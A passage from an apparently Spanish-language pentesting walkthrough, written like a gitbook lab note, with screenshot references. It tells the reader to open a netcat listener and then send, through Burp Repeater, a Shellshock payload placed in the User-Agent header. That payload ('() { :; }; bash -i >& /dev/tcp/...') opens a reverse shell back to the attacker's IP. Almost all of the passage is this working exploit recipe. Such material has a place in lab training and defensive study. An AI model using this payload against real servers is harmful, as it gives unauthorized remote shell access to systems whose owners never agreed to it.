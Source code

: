 <figure><img src="../../../.gitbook/assets/enter.PNG" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/intercept.PNG" alt=""><figcaption></figcaption></figure>

</div>

* Nos ponemos en escucha con netcat para recibir la reverse shell

```shell
> nc -lvnp <puerto>
```

* Mandamos la petición al repeater con control + R y en el User-Agent ponemos lo siguiente para enviarnos una reverse shell

```shell
User-Agent: () { :; }; bash -i >& /dev/tcp/<tu-ip>/<puerto> 0>&1
```

* Le damos a **send** para enviar la **reverse shell**
